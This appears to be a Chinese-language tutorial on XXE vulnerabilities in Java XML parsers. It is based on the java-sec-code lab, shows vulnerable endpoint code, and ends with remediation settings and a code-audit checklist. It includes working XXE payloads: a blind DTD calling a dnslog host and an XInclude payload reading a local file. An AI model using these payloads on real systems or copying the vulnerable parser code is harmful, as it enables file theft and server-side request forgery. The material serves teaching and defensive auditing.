










环境：https://github.com/JoyChou93/java-sec-code

## 关于经常出现XXE漏洞的接口和类

> 凡是可以解析XML数据的地方都可能存在XXE。

两种常用解释器：

1. Java SAX解析器

Java SAX是读取XML的文件内容的，根据标签读取，特点是线性方式的处理。

1. Java JDOM解析器

Java JDOM解析器分析XML文档，可以灵活的得到一个树形结构，是轻量级的快速API。

Java中的XXE支持的协议有：http，https，file，ftp，mailto，jar，netdoc

XML文件解析的业务功能点

- WebServices接口
- RESTful接口
- Excel文件解析（批量导入&从文件导入）
- Soap协议

### XMLReader

查看相应接口，可以在漏洞环境中相对应的漏洞源码中跟进查看



查看XMLReader接口的开头注释，发现XMLReader是一种通过回调读取XML文档的接口，其存在于公共区域中。XMLReader接口是XML解析器实现SAX2驱动程序所必需的接口，其允许应用程序设置和查询解析器中的功能和属性、注册文档处理的事件处理程序，以及开始文档解析。当XMLReader使用默认的解析方法并且未对XML进行过滤时，会出现XXE漏洞。

一般漏洞代码

```java
String body = WebUtils.getRequestBody(request);
logger.info(body);
XMLReader xmlReader = XMLReaderFactory.createXMLReader();
xmlReader.parse(new InputSource(new StringReader(body))); 
```

这是个无回显的XXE，可以利用dnslog来验证。

```java
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ke40e2.dnslog.cn">
%remote;]>
<root/>
```


### SAXBuilder

SAXBuilder是一个JDOM解析器，它可以将路径中的XML文件解析为Document对象，SAXBuilder使用第三方SAX解析器来处理解析任务，使用SAXHandler的实例侦听SAX事件，当SAXBuilder使用默认的解析方法并且未对XML进行过滤时，会出现XXE漏洞。

### SAXParserFactory

SAXParserFactory使应用程序能够配置和获取基于SAX的解析器以解析XML文档。其受保护的构造方法，可以强制使用newInstance()。跟上面介绍的一样，在使用默认解析方法且未对XML进行过滤时，其也会出现XXE漏洞。

### Digester

Digester类用来将XML映射成Java类，以简化XML的处理。它是Apache Commons库中的一个jar包：common-digester包。一样的在默认配置下会出现XXE漏洞。其触发的XXE漏洞是没有回显的，我们一般需通过Blind XXE的方法来利用

### DocumentBuilderFactory

javax.xml.parsers包中的DocumentBuilderFactory用于创建DOM模式的解析器对象，DocumentBuilderFactory是一个抽象工厂类，它不能直接实例化，但该类提供了一个newInstance()方法，这个方法会根据本地平台默认安装的解析器，自动创建一个工厂的对象并返回。

主要看这个，这边先看有回显得情况

```java
@RequestMapping(value = "/DocumentBuilder/vuln01", method = RequestMethod.POST)
    public String DocumentBuilderVuln01(HttpServletRequest request) {
        try {
            String body = WebUtils.getRequestBody(request);
            logger.info(body);
            DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
            DocumentBuilder db = dbf.newDocumentBuilder();
            StringReader sr = new StringReader(body);
            InputSource is = new InputSource(sr);
            Document document = db.parse(is);  // parse xml

            // 遍历xml节点name和value
            StringBuilder buf = new StringBuilder();
            NodeList rootNodeList = document.getChildNodes();
            for (int i = 0; i < rootNodeList.getLength(); i++) {
                Node rootNode = rootNodeList.item(i);
                NodeList child = rootNode.getChildNodes();
                for (int j = 0; j < child.getLength(); j++) {
                    Node node = child.item(j);
                    buf.append(String.format("%s: %s\n", node.getNodeName(), node.getTextContent()));
                }
            }
            sr.close();
            return buf.toString();
        } catch (Exception e) {
            logger.error(e.toString());
            return EXCEPT;
        }
    }
```

结果：



跟下流程，需要注意的是这里的`Content-Type: application/xml`否则可能会报错。

首先前两行代码，是获取request，也就是用户的输入，然后输出日志



主要代码逻辑在下面，DocumentBuilderFactory类是一个由abstract修饰的抽象类，抽象类是不能直接实例化的，但是这个类可以进行初始化这一操作，也就是`newInstance()`进去这个类发现它本身写了一个`newInstance`方法。



然后可以看到它做了什么操作，获取到一个工厂实现类



然后这个类中的newDocumentBuilder方法获取到DOM解析器对象。



后面两步是将解析的XML格式的内容转换为输入流，DOM才可以解析

最后这一步就是用DOM解析器的parse方法去解析XML文件内容了，可以利用XML特性对XML文件进行操作。

```java
Document document = db.parse(is);
```

所以一般在找XXE漏洞时，parse方法也是一个污点汇聚的地方，可以重点关注一下。

无回显方式，则是在append方法执行之前，也就是最后一步，获取判断是否为`Node.ELEMENT_NODE`类型。

```java
// 遍历xml节点name和value
            StringBuilder result = new StringBuilder();
            NodeList rootNodeList = document.getChildNodes();
			//获取根节点下的子节点的List集合
            for (int i = 0; i < rootNodeList.getLength(); i++) {
                Node rootNode = rootNodeList.item(i);
                NodeList child = rootNode.getChildNodes();
                for (int j = 0; j < child.getLength(); j++) {
                    Node node = child.item(j);
                    // 正常解析XML，需要判断是否是ELEMENT_NODE类型。否则会出现多余的的节点。
                    if (child.item(j).getNodeType() == Node.ELEMENT_NODE) {
                        result.append(String.format("%s: %s\n", node.getNodeName(), node.getFirstChild()));
                    }
                }
            }
            sr.close();
            return result.toString()
```

### XInclude attacts

一些应用程序接收客户端提交的数据，在服务器端将其嵌入到 XML 文档中，然后解析该文档。当客户端提交的数据被放入后端 SOAP 请求中时，就会出现这种情况的一个示例，该请求随后由后端 SOAP 服务处理。

在这种情况下，您无法执行经典的 XXE 攻击，因为您无法控制整个 XML 文档，因此无法定义或修改DOCTYPE元素。但是，您也许可以XInclude改用。XInclude是 XML 规范的一部分，它允许从子文档构建 XML 文档。您可以XInclude在 XML 文档中的任何数据值中进行攻击，因此可以在您仅控制放置在服务器端 XML 文档中的单个数据项的情况下执行攻击。

SOAP 是基于 XML 的简易协议，可使应用程序在 HTTP 之上进行信息交换。
或者更简单地说：SOAP 是用于访问网络服务的协议。

1. 使用格式：

引入方法是

```java
xmlns:xi="http://www.w3.org/2001/XInclude"
```

xi可以自行命名，相当于定义的变量（可以这么理解）

当引入了链接后，就可以使用引入两个标签

```
xi:include``xi:fallback
```

看一个payload就可以理解了

```java
<?xml version="1.0" ?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include href="file:///D:/Test/info.txt" parse="text"/>
</root>
```

在靶场打一下payload



结果是不回显的，但是结果可以在idea中看到，实际上是执行了这个payload



### CVE-2014-3529

影响范围：poi-ooxml-3.10-FINAL.jar及以下版本

主要利用文件



将外部实体注入



重新打包，上传解析即可在dnslog中产生记录。

这个CVE没有搭建环境，有点老了， 不想搭建去看了。

## 防护修复

1. `DocumentBuilderFactory`防护

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

1. `xinclude`防护

```java
//xinclude防护
dbf.setXIncludeAware(true);   // 支持XInclude
dbf.setNamespaceAware(true);  // 支持XInclude
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

## 挖掘思路

### 1. 引用了不安全的漏洞组件

常见XML解析库

```java
javax.xml.stream.XMLStreamReader
javax.xml.parsers.DocumentBuilderFactory
org.dom4j.io.SAXReader
org.xml.sax.helpers.XMLReaderFactory
javax.xml.parsers.SAXParser
javax.xml.parsers.DocumentBuilder
org.jdom.input.SAXBuilder
org.dom4j.DocumentHelper
org.jdom.output.XMLOutputter
```

常见漏洞组件

- xlsx-streamer.jar-2.0.0及以下版本
- poi-ooxml-3.10-FINAL.及以下版本（CVE-2014-3529）
- poi-ooxml-3.13-FINAL.及以下版本（CVE-2016-5000）
- poi-ooxml-3.15.jar 及以下版本（CVE-2017-5644（拒绝服务））

如果系统使用了低版本POI库，导致处理Excel文件时存在XXE和SSRF漏洞，升级该库，必须大于3.14版本

如果系统使用了Excel Streaming Reader <= 2.0.0 XXE 中，升级该库，必须大于2.0.0版本

### 2. 检查XML解析器的安全属性设置

禁用DTDs或者外部实体

```java
禁止DTDS解析:
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
使用安全处理模式避免ssrf和文件读取：
dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
不包括外部通用实体：
dbf.setFeature("http://xml.org/sax/features/external- general-entities", false);
不包括外部实体或外部DTD子集:
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
忽略外部DTD:
factory.setFeature("http://apache.org/xml/features/nonvalidati ng/load-external-dtd", false);
```